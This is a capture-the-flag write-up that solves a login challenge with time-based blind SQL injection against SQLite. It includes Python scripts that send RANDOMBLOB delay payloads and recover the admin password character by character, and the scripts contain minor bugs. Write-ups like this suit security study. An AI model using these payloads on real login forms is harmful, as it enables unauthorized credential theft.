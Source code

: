 # Key Vault -- Solution

## Introduction

If we open the task link, we can see the login form. Also, there is the title of the page **"Medical Key Vault Login"**, and we can see the background image with **injection**. This is a hint for the task - SQL injection.

## Find the underlying database

The solution to this task is to perform a timing blind attack on the database. The most time-consuming part is to find which database is used.

To check if the attack works, we can measure time with the wrong username/password and with injection payload.

For SQLite, we can use the `RANDOMBLOB` function to perform a blind time attack:

```
import requests
import time


def measure_time(url, data, n):

    total = 0
    for _ in range(n):
        start = time.time()
        requests.post(url, data=data)
        end = time.time()
        diff = (end - start)
        total += diff

    return total / n


def main():
    url = 'https://tbtl-key-vault.chals.io/login'

    original = {'username': 'admin,' 'password': 'password'}
    attack = {'username': 'admin', 'password': f'" OR RANDOMBLOB(300000000); --'}

    for _ in range(5):
        time_org = measure_time(url, original, 3)
        time_attack = measure_time(url, attack, 3)
        print("Original/Attack time:", time_org, time_attack)


if __name__ == '__main__':
    main()
```
We can spot that if we use a malicious payload, the query time is statistically bigger than the ordinary payload.

## Robust script

We need robust methods to perform attacks because of network and other uncontrollable parameters. The idea is to trigger a time attack when we guess one letter of the password. The username is **admin** (this can be concluded from the website text).

Here is a complete script that can export **password**:

```
import requests
import time
import string

url = 'https://tbtl-key-vault.chals.io/login'

current = ''

while True:

    times = []
    for i in string.ascii_letters + string.digits:
        data = {'username': 'admin', 'password': f'" OR (password glob "{current}{i}*" AND RANDOMBLOB(300000000)); --'}
        start = time.time()
        r = requests.post(URL, data=data)
        end = time.time()

        diff = (end - start)

        times.append((diff, i))

        print(i, diff)

    times.sort(reverse=True)

    letter = ''
    time_value = 0
    for i in times[:5]:
        data = {'username': 'admin', 'password': f'" OR (password glob "{current}{i[1]}*" AND RANDOMBLOB(300000000)); --'}
        start = time.time()
        for _ in range(3):
            r = requests.post(URL, data=data)
        end = time.time()
        diff = (end - start) / 3
        print(i, diff)
        if diff > time_value:
            time_value = diff
            letter = i[1]

    print(times[:5])
    current += letter
    print(current)
print()
```

Exported **password** is **oCLE6BL1L9**, and when we login we get the flag: **TBTL{W3_4R3_4LL_BL1ND}**
